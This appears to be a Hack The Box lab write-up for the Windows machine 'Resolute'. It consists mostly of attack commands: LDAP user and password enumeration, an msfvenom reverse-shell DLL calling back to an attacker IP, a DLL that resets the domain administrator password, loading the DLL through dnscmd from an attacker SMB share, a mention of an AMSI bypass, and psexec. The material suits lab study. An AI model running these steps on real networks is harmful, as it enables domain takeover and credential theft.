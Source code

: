 # Resolute

HacktheBox Retired Machine
10.10.10.169

tags: #go-windapsearch #ldapsearch #ldap #rpclient #impacket #dns #msfvenom #smb
#### Windows Server with Active Directory and DNS

Using windapsearch from Reference: https://github.com/ropnop/go-windapsearch

```bash
/home/kali/github/go-windapsearch/windapsearch-linux-amd64 -m users -d resolute.megabank.local --dc-ip 10.10.10.169 | tee usersScan.txt
```

Found that the below command is a little different than the above to get the users attributes of the description
```bash
/windapsearch.bin -m users -d resolute.megabank.local --dc 10.10.10.169 --full
```

Returned a list of users... 

List of users
```txt
sunita, abigail, DefaultAccount, ryan, Guest, marko, marcus, gustavo, ulf, sally, fred, angela, felicia, stevie, annika, per, claire, paulo, annette, steve, claude, melanie, zach, simon, naoki
```

Ran ldapsearch to find the additonal information I needed... The password is in the description of an account...

```bash
ldapsearch -h 10.10.10.169 -p389 -x -b dc=megabank,dc=local | tee ldapsearchResults.txt
```

Results
```txt
description: Account created. Password set to Welcome123!
sAMAccountName: marko
```

Also in the results we see that the account lockout policy is 0
```bash
lockoutThreshold: 0
```

Identified the melanie account can login with Welcome123!
```bash
rpcclient -U "melanie%Welcome123!" -c "dir" 10.10.10.169
```

In the powershell transcription logs look at the hidden directories... dir -h
```txt
At line:1 char:1
+ cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
```

Here we find ryans password...

Execute whoami /all to determine the privileges that you have...

Reference to lolbins: https://lolbas-project.github.io/lolbas/Binaries/Dnscmd/

Spin up a fileshare using smbserver.py from Impacket
```bash
python3 /home/kali/github/impacket/examples/smbserver.py -comment 'Temp Share' s /home/kali/hackthebox/output/resolute
```

Did not see the initial connection to the SMB server to pull the dll, wanted to verify connectivity...  Ran the below command to mount the directory

```cmd
net use z: \\10.10.14.17\s
```

I did change the above smbserver command to be s instead of tmp for the drive...  To view the mount run get-psdrive in evil-winrm

--- I could not get the dll to work off of mounting it from a share when it was a msfvenom reverse shell...

```bash
#rev shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.17 LPORT=4444 -f dll -o rev.dll
```

Created a msfvenom to change the administrator password...
```bash
msfvenom -p windows/x64/exec cmd='net user administrator P@ssword123! /domain' -f dll -o rev2.dll
```

Using evil-winrm ran the amsibypass invoke-snow.ps1

With DNS privileges loaded the dll...
```cmd
cmd /c dnscmd.exe localhost /config /serverlevelplugindll \\10.10.14.17\s\rev2.dll
```

Then with additional privs I am able to start and stop the DNS server...

```cmd
sc stop dns
sc start dns
```

The connection to the SMB server shows the file was pulled...
Then using psexec impacket I am able to connect with the administrators password that was setup...

```bash
python3 /home/kali/github/impacket/examples/psexec.py megabank.local/administrator@10.10.10.169
```


